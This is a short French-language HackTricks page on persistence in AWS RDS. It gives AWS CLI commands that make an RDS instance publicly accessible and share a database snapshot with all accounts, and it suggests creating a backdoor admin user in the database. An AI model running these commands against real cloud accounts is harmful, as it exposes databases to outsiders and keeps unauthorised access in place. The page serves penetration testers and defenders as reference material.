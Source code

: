 # AWS - RDS Persistance

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Pour plus d'informations, consultez :

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Rendre une instance accessible publiquement : `rds:ModifyDBInstance`

Un attaquant disposant de cette permission peut **modifier une instance RDS existante pour activer l'accessibilité publique**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Créer un utilisateur admin dans la DB

Un attaquant pourrait simplement **créer un utilisateur dans la DB** afin que même si le mot de passe du master user est modifié, il **ne perde pas l'accès** à la base de données.

### Rendre le snapshot public
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
